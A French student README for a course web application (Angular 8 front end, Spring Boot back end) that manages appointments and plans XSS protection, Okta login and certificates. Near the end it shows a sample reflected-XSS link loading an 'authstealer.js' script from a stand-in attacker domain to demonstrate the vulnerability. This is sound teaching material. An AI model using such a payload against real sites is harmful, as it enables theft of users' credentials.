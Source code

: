 # UE_CyberApp_Ferretti

## Introduction

Ce document est un rendu/mode d'emploir pour le projet d'application web de l'UE CyberApp de l'IMT Atlantique. On commence par présenter la version coeur de notre application qui repose sur Angular 8 et Spring Boot puis on ajoute progressivement trois étapes de sécurisation avec tout d'abord la gestion des attaque xss côté springboot puis un ajout d'une mthode d'authentification avec okta et enfin la gestion des certificat pour établir une connexion sécurisée.

## L'application

Cette application a été développé en s'appuyant sur différent tutorials et cours sur Angular 8 et spring-Boot, l'objectif est de crée un système simple de gestion de rendez-vous pour une secrétaire. On limite notre application à un système de savegarde/édition/suppression des rendez-vous.

Les déscriptions ci-dessous repose sur la Version_1 de ce git.

### Le back-end avec Spring-Boot

#### Pour lancer l'application, on fait un run maven build sur eclipse et on choisi spring-boot:run

On commence par générer un spring-boot de base dans la version voulue ce qui nous donne un squelette d'application web sur lequelle on rajoute nos couche voulue.

Le Spring initializr permet de créer cette base :

![alt text](https://github.com/Sheecss/Ue_CyberApp_Ferretti/blob/main/img/spring%20initializr.PNG "Logo Title Text 1")

Les dépendences principales sont : 
 
![alt text](https://github.com/Sheecss/Ue_CyberApp_Ferretti/blob/main/img/Capture.PNG "Logo Title Text 1")

Une fois cette première étape effectuée, on rajoute notre couche personelle avec la classe Rdv que nous utiliserons. On peut aussi étendre ce système avec la création de classe Patient et Docteur mais pour montrer nos ajouts, cette base suffit :


![alt text](https://github.com/Sheecss/Ue_CyberApp_Ferretti/blob/main/img/classe_rdv.PNG "Logo Title Text 1")

Une fois nos items créés, on va ajoutés la possibilité de gérer une base de données avec un controller et un repository qui nous permettra de stocker nos rdv. Ce controller nous permet de mapper sur une url http://localhost:8080/rdv-liste qui contiendra une liste des rdvs que l'on récupérera sur notre interface angular.

![alt text](https://github.com/Sheecss/Ue_CyberApp_Ferretti/blob/main/img/rdvcontroller.PNG "Logo Title Text 1")

On aura sur l'url http://localhost:8080/rdvs, l'ensemble de nos rdvs en format json :

![alt text](https://github.com/Sheecss/Ue_CyberApp_Ferretti/blob/main/img/rdv_json.PNG "Logo Title Text 1")

### Le front-end avec Angular 8

#### Pour lancer l'application, on fait un run ng serve dans le répertoire Version_X/client

#### Pour notre partie Angular, en plus des composants habituel, on installe le package suivant : npm install --save ngx-mat-datetime-picker@2.0

On commence par créer le service rdv qui va gérer l'ajout et la récupération des rdvs, pour cela on utilise les mapping fait sous java ce qui donne :

![alt text](https://github.com/Sheecss/Ue_CyberApp_Ferretti/blob/main/img/rdv_service.PNG "Logo Title Text 1")

On met ensuite en place la partie affichage et selection de la liste des rdvs en utilisant des bouton cliquable qui renvoie ensuite vers al page d'édition de l'item voulue. On ajoute aussi un bouton Add :

# Mettre Image

Enfin, on crée le formulaire qui nous permet de modifier et ajouter des rdvs, on utilise ngModel pour remplir les cases avec les vgaleurs actuelles en cas de modification. On peut aussi Supprimer et retourner en arriere :

# Mettre Image

## Problème de vulnérabilité XSS côté SpringBoot :

Si on imagine un problème de pishing quelconque qui nous conduit à cliquer sur un lien frauduleux : [I'm an fraudulent link](http://localhost:8080/rdvs?q=puppies%3Cscript%20src=%22http://mallorysevilsite.com/authstealer.js%22%3E%3C/script%3E)

On voit que springboot permet d'acceder à cette url :

![alt text](https://github.com/Sheecss/Ue_CyberApp_Ferretti/blob/main/img/rdv_service.PNG "Logo Title Text 1")
